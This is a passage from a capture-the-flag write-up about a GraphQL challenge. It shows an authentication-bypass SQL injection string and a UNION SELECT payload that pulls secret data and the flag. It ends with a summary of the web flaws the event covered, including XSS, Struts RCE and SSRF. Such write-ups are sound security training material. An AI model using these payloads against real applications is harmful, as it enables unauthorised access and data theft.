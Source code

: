- `getUser(username: String)`
- `getAllProducts`
- `getProductById(id: Int)`

To test for SQL injection, we try the following query:

```graphql
{
  getUser(username: "admin' OR '1'='1") {
    id
    username
    role
  }
}
```

This confirms a SQL injection vulnerability in the `getUser` query.

### Step 4: Exploiting SQL Injection to Retrieve the Flag

Using SQL injection in the `getProductById` query, we attempt to extract sensitive data:

```graphql
{
  getProductById(id: "-1 UNION SELECT 3, secret_info, 'description', 0 FROM product_secrets WHERE product_id = 3") {
    id
    name
    description
    price
  }
}
```

By executing this payload, we retrieve secret information, which includes the flag.

**Flag:** `Spark{s0_M4ny_w4yss_t0_w1N!!!}`

---

## Summary

This CTF covered various web security vulnerabilities including:
- Cross-Site Scripting (XSS)
- GraphQL introspection and information disclosure
- Apache Struts RCE (CVE-2017-5638)
- SQL Injection
- Server-Side Request Forgery (SSRF)

Each challenge demonstrated different attack vectors and exploitation techniques commonly found in web applications.